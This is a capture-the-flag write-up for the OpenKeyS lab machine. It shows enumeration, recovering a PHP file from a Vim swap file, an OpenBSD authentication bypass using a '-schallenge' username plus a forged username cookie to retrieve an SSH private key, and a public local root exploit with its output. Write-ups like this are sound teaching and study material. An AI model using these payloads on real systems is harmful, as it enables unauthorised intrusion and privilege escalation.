 # OpenKeyS

This is the write-up for the box OpenKeyS that got retired at the 12th December 2020.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.199    openkeys.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/openkeys.nmap 10.10.10.199
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
|_  256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
80/tcp open  http    OpenBSD httpd
|_http-title: Site doesn't have a title (text/html)
```

## Checking HTTP (Port 80)

The web page forwards to a login page on _index.php_ and the title is _"OpenKeyS - Retrieve your OpenSSH Keys"_.
Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.199 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds the directory _/includes_ that is an index with two files:
- auth.php
- auth.php.swp

The file _auth.php_ forwards to a blank page, but _auth.php.swp_ is a **Vim swap file**:
```
wget http://10.10.10.199/includes/auth.php.swp
```
```
file auth.php.swp

auth.php.swp: Vim swap file, version 8.1, pid 49850, user jennifer, host openkeys.htb, file /var/www/htdocs/includes/auth.php
```

Recovering the PHP source code of the file with **Vim**:
```
vim

:recover auth.php.swp
```

On line five is a potential command injection vulnerability because it is executing _/auth_helpers/check_auth_ with the _escapeshellcmd_ command:
```
function authenticate($username, $password)
{                                                                                                  
    $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password
(...)
```

There is another potential vulnerability as the _username_ parameter gets called with _REQUEST_ which means that it can be provided in a **GET request**, **POST request** and in a **Cookie**:
```
$_SESSION["username"] = $_REQUEST['username'];
```

When browsing to _/auth_helpers/check_auth_ the file can be downloaded and it is an **ELF binary**:
```
file check_auth

check_auth: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/libexec/ld.so, for OpenBSD, not stripped
```

By using `strings` on the binary, it shows _"auth_userokay"_ and when researching this, it becomes clear that this binary uses the [authentication function from OpenBSD](https://man.openbsd.org/authenticate.3).

This function has [Authentication Bypass and Local Privilege Escalation vulnerabilities](https://www.secpod.com/blog/openbsd-authentication-bypass-and-local-privilege-escalation-vulnerabilities/) from 2019.

### Exploiting Authentication Bypass Vulnerability

The Privilege Escalation vulnerabilities may help us later, when having a user session on the box.

The Authentication Bypass vulnerability _(CVE-2019-19521)_ works by using _"-schallenge"_ on an authentication service to bypass the authentication.
As it does not work on SSH, lets try it on the web page:
```
POST /index.php HTTP/1.1
Host: 10.10.10.199
(...)
username=-schallenge&password=1234
```

It works and forwards to _/sshkey.php_ that says:
```
OpenSSH key not found for user -schallenge
```

By using the other vulnerability in the PHP file _auth.php_ and provide the _username_ parameter in the Cookies, it may show the provided user:
```
POST /index.php HTTP/1.1
(...)
Cookie: PHPSESSID=r4f0do15tih3c07b19dq8j0ju3;username=test
(...)
username=-schallenge&password=1234
```
```
OpenSSH key not found for user test
```

It works and requests the parameter from the cookies and now a valid user is needed.
The _auth.php.swp_ file shows that it belongs to the user _jennifer_ so lets try that username:

```
POST /index.php HTTP/1.1
(...)
Cookie: PHPSESSID=r4f0do15tih3c07b19dq8j0ju3;username=jennifer
(...)
username=-schallenge&password=1234
```
```
OpenSSH key for user jennifer

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
(...)
```

The SSH key for _jennifer_ can be retrieved and used to login into the box:
```
ssh -i jennifer.key jennifer@10.10.10.199
```

## Privilege Escalation

Now one of the Local Privilege Escalation vulnerabilities from the article can be exploited.
A [Proof-of-Concept](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot) for _CVE-2019-19520_ and _CVE-2019-19522_ exists and can be used:
```
openkeys$ ./openbsd-authroot

openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
_XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
S/Key Password:
```

The password that is displayed has to be pasted and it starts a shell as root:
```
openkeys# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
